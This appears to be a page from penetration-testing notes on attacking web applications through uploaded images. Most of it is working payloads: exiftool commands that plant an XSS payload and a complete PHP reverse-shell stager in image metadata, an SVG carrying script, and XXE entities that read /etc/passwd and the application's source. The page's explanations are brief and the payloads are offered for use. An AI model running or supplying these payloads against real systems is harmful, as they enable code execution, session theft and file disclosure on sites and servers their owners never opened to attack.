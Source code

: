 ### Metadata Injection

If the web application displays the image's metadata, a payload can be injected in one of the metadata's fields. When the image's metadata is displayed, the payload will be triggered.&#x20;

```bash
# injecting an XSS payload into the Comment field
exiftool -Comment=' "><img src=1 onerror=alert(window.origin)>' image.jpg
```

{% code overflow="wrap" %}
```bash
# injecting a reverse shell payload into the Document Name field
exiftool -DocumentName='/*<?php /**/ error_reporting(0); $ip = "127.0.0.1"; $port = 4444; if (($f = "stream_socket_client") && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = "stream"; } elseif (($f = "fsockopen") && is_callable($f)) { $s = $f($ip, $port); $s_type = "stream"; } elseif (($f = "socket_create") && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = "socket"; } else { die("no socket funcs"); } if (!$s) { die("no socket"); } switch ($s_type) { case "stream": $len = fread($s, 4); break; case "socket": $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a["len"]; $b = ""; while (strlen($b) < $len) { switch ($s_type) { case "stream": $b .= fread($s, $len-strlen($b)); break; case "socket": $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS["msgsock"] = $s; $GLOBALS["msgsock_type"] = $s_type; eval($b); die(); __halt_compiler();' duck.jpg
     1 image files updated
```
{% endcode %}

If the metadata is not directly displayed, chaning the MIME-type to `text/html`, might cause the file to be treated as an HTML document and directly trigger the payload.

### SVGs

We can include XSS payloads within the XML data of SVG images. Once the image is displayed, the payload will be triggered.

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">
<svg xmlns="http://www.w3.org/2000/svg" version="1.1" width="1" height="1">
    <rect x="1" y="1" width="1" height="1" fill="green" stroke="black" />
    <script type="text/javascript">alert(window.origin);</script>
</svg>
```
{% endcode %}

We can also perform [XXE](injections/xxei/) attacks using SVG images. This can be used for reading the web application's source files.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<svg>&xxe;</svg>
```

{% code overflow="wrap" %}
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE svg [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=index.php"> ]>
<svg>&xxe;</svg>
```
{% endcode %}
